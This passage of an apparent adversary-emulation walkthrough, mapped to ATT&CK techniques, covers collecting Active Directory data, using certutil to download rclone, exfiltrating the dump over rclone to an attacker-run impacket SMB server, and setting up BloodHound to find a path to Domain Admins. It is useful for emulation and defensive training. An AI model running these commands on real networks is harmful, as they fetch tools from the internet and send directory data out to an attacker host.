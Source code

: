 **Step 2.3**
```PowerShell
[ITSERVER:PowerShell] C:\temp\sh.exe --memcache --zipfilename c.zip --outputdirectory C:\temp\
```
ATT&CK Techniques: `T1087.001` `T1087.002` `T1560` `T1059.001` `T1482` `T1615` `T1106` `T1201` `T1069.001` `T1069.002` `T1018` `T1033`

### Exfiltrate AD dump

To exfiltrate the AD data collection, we will use `rclone`.

Let's download `rclone` executable on the system first:

**Step 2.4**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe
```
ATT&CK Techniques: `T1005`

Then we'll need to create a config file for `rclone` and put it in `C:\Temp\r.conf`:

**Step 2.5**
```
[ss]
type = smb
host = 10.0.1.30
user = user
pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8
```
ATT&CK Techniques: `?`

In the meantime, on our Kali machine, we will create a `loot` folder and start an SMB server with it:

```bash
[KALI:bash] mkdir loot
[KALI:bash] impacket-smbserver -smb2support -username user -password pass123 data ./loot
```

Now that SMB server is running and our `rclone` is ready, let's copy the AD dump file from Windows to Kali:

**Step 2.6**
```PowerShell
[ITSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Temp\<c.zip-filename> ss:data --no-check-dest
```
ATT&CK Techniques: `T1048`

### Import AD dump into Bloodhound and find path to Domain Admins

Before starting Bloodhound, make sure that Bloodhound is installed and Neo4j is running

```bash
[KALI:bash] sudo apt install -y bloodhound
[KALI:bash] sudo neo4j start
```
